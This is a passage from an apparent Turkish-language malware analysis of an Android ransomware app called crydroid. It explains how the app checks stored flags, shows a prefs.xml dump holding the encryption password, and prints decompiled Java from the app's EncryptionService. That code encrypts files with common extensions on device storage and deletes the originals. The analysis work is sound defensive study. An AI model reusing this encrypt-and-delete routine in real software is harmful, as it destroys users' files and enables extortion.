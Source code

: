 ```java
        this.b.setVisibility(8);
        this.a.setText("Please wait. Initializing");
        return false;
    }
```
Bu fonksiyonda ise shared prefsten aldığı "FINISHED" ve "Unlocked. Personal files decrypted" isimli değerleri alıyor ve bunlar false dönerse dosyalar decrypt edilmiş manasına geliyor. Aksi halde ise şu şu adrese mail at diye text basıyor. Dosyalar şifrelendikten sonra shared preferences altındaki prefs.xml dosyasına bakarsanız bu değerleri görebilirsiniz.
```sh
vbox86p:/data/data/com.crydroid/shared_prefs # cat prefs.xml                                                                                                                                                                               
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="com.crydroid.PASSWORD">1b8H1k4B5CnkWacN</string>
    <boolean name="FINISHED" value="true" />
    <string name="uuid">2e2614dc-b304-4854-b09c-18bed5c9ebf8</string>
</map>
```
Yani sonuç olarak a fonksiyonu true b fonksiyonu da false dönerse cihazda herhangi bir işlem daha yapılmadı manasına geliyor ve "EncryptionService" servisi çalıştırılarak yine decryptionda olduğu gibi shared prefsden parola alınıp dosyalar şifreleniyor.Bu işlem yapılırken de belirli uzantılara sahip dosyalarda şifreleme yapılıyor ve dosyaların orjinalleri silinip yerlerine ".enc" uzantılı şifrelenmiş dosyalar konuluyor.

```java
//com.crydroid.services.EncryptionService
public /* synthetic */ void c() {
        g();
        String[] strArr = {"txt", "jpg", "bmp", "png", "pdf", "doc", "docx", "ppt", "pptx", "avi", "xls", "xlsx", "VCF", "pdf", "db"};
        File file = new File("/storage/emulated/0");
        k.a.a.a.f.f fVar = j.b;
        for (File file2 : (List) k.a.a.a.b.a(file, fVar, fVar)) {
            try {
                String canonicalPath = file2.getCanonicalPath();
                if (k.a.a.b.a.a(strArr, k.a.a.a.c.a(canonicalPath))) {
                    b(canonicalPath);
                    file2.delete();
                }
            } catch (Exception unused) {
            }
        }
        try {
            a();
            d();
            stopSelf();
        } catch (Exception unused2) {
        }
    }
```

